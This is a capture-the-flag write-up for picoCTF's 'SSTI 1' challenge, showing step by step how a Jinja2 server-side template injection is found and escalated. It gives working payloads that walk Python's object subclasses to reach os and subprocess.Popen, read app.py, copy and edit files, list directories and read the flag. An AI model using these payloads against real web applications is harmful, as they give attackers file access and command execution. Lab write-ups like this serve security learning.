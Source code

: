 ### SSTI 1
https://play.picoctf.org/practice/challenge/492

try {{7*7}}, we got 49 result, so maybe ssti jinja python

![alt text](image.png)

![alt text](image-2.png)

confirm python jinja2

![alt text](image-3.png)

using `${{<%[%'"}}%\.` template with ssti vulnerabily will throw 500 

![alt text](image-1.png)

so, let exploit

1. After indentify jinja 2, we got some:

Access some objection using (),'',[] + .__class__ (example ().__class__)

Access parent class object using ().__class__ + .__bases__[0] 

![alt text](image-4.png)

Access oobject subclass using ().__class__ + .__bases__[0] + .__subclasses__()

We found os.popen, can be exploit this. let try

![alt text](image-5.png)

But, if wanna using this, we just find number of os.wrap_close on list, so sent it to intruder and bruteforcing this

using payload to brute forcing

```
{{().__class__.__bases__[0].__subclasses__()[1]}}
```

using `payload-generate.py` we got, os.wrap_close() on 132 position of this list

![alt text](image-6.png)

![alt text](image-7.png)

And `subprocess.Popen` on `356` request

![alt text](image-8.png)

![alt text](image-10.png)

Next, __init__ is initializing method, we using this to call __globals__ (globals return all method, module, ...)

using `().__class__ + .__bases__[0] + .__subclasses__()` + `.__init__.__globals__` we got payload 

`{{().__class__ + .__bases__[0] + .__subclasses__()[132].__init__.__globals__}}`

Let's try : 

```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__}}
```

and try complete payload
```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__.__builtins__.open("app.py").read}}
```
![alt text](image-11.png)

readline to read first line of app.py

![alt text](image-12.png)

Use `subprocess.Popen` coppy `app.py` to new file `test.txt`

```python
{{[].__class__.__base__.__subclasses__()[356](["cp"].__add__(["app.py"]).__add__(["test.txt"]))}}
```

![alt text](image-13.png)

Using `132` read new file `test.txt`

![alt text](image-14.png) 

using `sed -i 1d` to delete first row

![alt text](image-15.png)

read test.txt and confirm it deleted

![alt text](image-16.png)

```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__["o".__add__("s")].__dict__.listdir()}}
```

using `{{().__class__.__base__.__subclasses__()[132].__init__.__globals__['__builtins__']['__import__']('os').listdir('.')}}` 

list dir

![alt text](image-17.png)

we see flag here, lets read using 132

`{{().__class__.__base__.__subclasses__()[132].__init__.__globals__.__builtins__.open("flag").readline()}}`
Finally we got `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}`

![alt text](image-18.png)
### reference
https://www.arashparsa.com/gactf/